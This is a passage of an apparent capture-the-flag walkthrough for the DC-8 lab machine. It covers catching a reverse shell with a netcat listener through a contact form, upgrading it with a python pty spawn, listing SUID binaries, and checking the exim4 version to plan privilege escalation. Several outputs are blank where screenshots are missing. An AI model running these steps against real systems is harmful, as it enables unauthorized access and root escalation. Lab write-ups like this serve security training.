



4.2 Netcat listener
a) On your Kali Machine open in a terminal a “netcat” session.
$nc
-lvp 1234
b) Fill out the “Contact us” form and click on “Submit”.

c) On your “netcat” session you'll see you're connected.
Output:

d) Run the following commands.
python -c
'import pty;pty.spawn("/bin/bash")'
find
/
-type f -perm -u=s 2>
/
dev
/
null
You'll see the utilities that can be run as root.
Output:

We're interested in “exim4”.
According to Wikipedia:
Exim
is a
mail transfer agent
(MTA) used on
Unix-like
operating systems.
e) Let's see the “exim4” version.
www-data@dc-8
:/
$
/
usr
/
sbin
/
exim4 --version
Output:
Exim version 4.89 #2 built 14-Jun-2017 05:03:07
Index